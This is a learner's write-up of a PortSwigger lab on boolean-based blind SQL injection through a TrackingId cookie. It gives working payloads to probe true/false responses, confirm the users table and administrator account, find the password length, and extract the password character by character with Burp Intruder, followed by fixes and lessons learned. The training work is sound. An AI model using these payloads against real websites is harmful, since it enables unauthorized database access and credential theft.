## LAB 12 — BLIND SQL INJECTION WITH CONDITIONAL RESPONSES

## LAB : [PortSwigger Lab 12 Link](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## What?

**Boolean-based Blind SQL Injection** in the `TrackingId` cookie. The application does not return query results or errors, but leaks a boolean signal ("Welcome back" message) depending on whether the injected condition is true or false.

## Where?

* **Page:** Front page of the shop
* **Method:** `GET` (cookie-based)
* **Parameter:** `TrackingId` cookie
* **No auth required**

## How did I find it?





Modified the `TrackingId` cookie value:

* `TrackingId=xyz' AND '1'='1'--` → **"Welcome back" appears** (true condition)
* `TrackingId=xyz' AND '1'='2'--` → **"Welcome back" disappears** (false condition)



This proved the backend query is:

```sql id="7m7b3k"
SELECT tracking-id FROM tracking-table WHERE trackingId = 'xyz'
```

…and my injected boolean logic directly controls whether rows are returned.

## How did I verify it?

### Step 1 — Confirm users table exists:

```plain id="3xq1ku"
TrackingId=xyz' AND (SELECT 'a'
FROM users LIMIT 1)='a'--
```


→ "Welcome back" appears = table exists.

### Step 2 — Confirm administrator user exists:

```plain id="8g2k5w"
TrackingId=xyz' AND (SELECT 'a'
FROM users WHERE username='administrator')='a'--
```


→ "Welcome back" appears = user exists.

### Step 3 — Determine password length:

```plain id="m4w9zp"
TrackingId=xyz' AND (SELECT 'a'
FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'--
```


```plain id="m4w9zp"
TrackingId=xyz' AND (SELECT 'a'
FROM users WHERE username='administrator' AND LENGTH(password)>25)='a'--
```


→ Used Burp Intruder to iterate 1–25. Response changed between 20 and 21. **Password length = 20.**





### Step 4 — Extract password character-by-character:

Used **Burp Intruder Cluster Bomb** with two payload positions:

```plain id="p8s4jd"
TrackingId=xyz' AND (SELECT
SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
```

* **Position 1:** Character offset (1–20)
* **Position 2:** Character value (a–z, 0–9)




  

Filtered results by **"Welcome back"** presence. Extracted password: **h274cwl7erwljum6dje3**

## Why does it work?

The backend query:

```sql id="r6v2cn"
SELECT tracking-id FROM tracking-table WHERE trackingId = 'xyz' AND [INJECTED_CONDITION]
```

* If the injected condition is **true**, the query returns rows → app shows "Welcome back"
* If the injected condition is **false**, the query returns nothing → app shows no message
* This is a **boolean oracle** — one bit of information per request
* `SUBSTRING(password,1,1)` extracts one character; comparing it against every possible value reveals the correct one
* Repeating this for all 20 positions reconstructs the full password

## What can an attacker do?

* Extract any data from the database one bit/character at a time
* Enumerate table names, column names, schema structure
* Steal credentials, PII, or any stored data
* No direct output or error messages needed — only a boolean signal

## What are the conditions/limitations?

* **Blind vulnerability** — no query results or errors returned
* Requires a **discernible boolean signal** ("Welcome back" vs. nothing)
* Very **slow without automation** — 20 characters × ~36 guesses = ~720 requests minimum
* Assumes password character set is known (lowercase alphanumeric)
* The `TrackingId` cookie value must be injectable in a string context

## How should it be fixed?

**Primary:** Use **parameterized queries** so `TrackingId` is bound as data.

**Defense-in-depth:**

* Never use cookie values directly in SQL queries
* Implement consistent page responses regardless of query results (don't leak boolean signals)
* Rate-limiting to slow down automated enumeration
* Strong password hashing (bcrypt/Argon2) — though blind extraction still works on hashes, it buys time

## What did I learn?

I learned that **blind SQLi is just as dangerous as union-based**, but requires patience and automation. The "Welcome back" message is a tiny leak, yet it was enough to extract a 20-character password. I also learned that `SUBSTRING()` + boolean comparison is the core technique, and **Burp Intruder's Cluster Bomb** is essential for multi-position brute-forcing. On a real target, I will now test for boolean signals even when there's no visible output — timing differences, content length changes, or presence/absence of small UI elements can all be oracles.

## What was the key obstacle?

**No direct output.** Unlike previous labs where I could see dumped data on the page, here I only had a single boolean signal. I had to change my mindset from "dump and read" to "ask yes/no questions and automate the answers." The Cluster Bomb attack with two payload positions (offset + character) was the critical technique — without it, manual extraction would have taken hours.
